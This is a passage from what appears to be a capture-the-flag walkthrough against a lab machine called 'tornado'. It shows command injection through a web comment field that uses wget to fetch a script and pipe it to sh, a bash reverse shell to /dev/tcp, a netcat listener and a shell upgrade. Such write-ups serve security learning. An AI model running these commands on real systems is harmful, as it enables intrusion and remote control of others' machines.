 We receive the result of the whoami command via netcat.

```console
root@kali:/tornado# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.71.1] from (UNKNOWN) [172.16.71.129] 39534
www-data
```

Write a bash reverse shell in a file, which I named rshell.

```console
root@kali:/tornado# echo "bash -c 'bash -i >& /dev/tcp/172.16.71.1/443 0>&1'" > rshell   
```

Set a web server with python.

```console
root@kali:/tornado# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Type the following in the comment field:

`hi;wget 172.16.71.1/rshell -O- |sh`

![](/assets/images/tornado/screenshot-22.png)

The above command download the bash reverse shell and it is interpreted directly in memory.

Then, upgrade to a full tty shell

```console
root@kali:/tornado# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.71.1] from (UNKNOWN) [172.16.71.129] 39538
bash: cannot set terminal process group (533): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tornado:/var/www/html/bluesky$ python3 -c "import pty; pty.spawn('/bin/bash')"
<ky$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@tornado:/var/www/html/bluesky$  ^Z       
zsh: suspended  nc -vlnp 443
root@kali:/tornado# stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@tornado:/var/www/html/bluesky$ export TERM=screen
www-data@tornado:/var/www/html/bluesky$ 
```
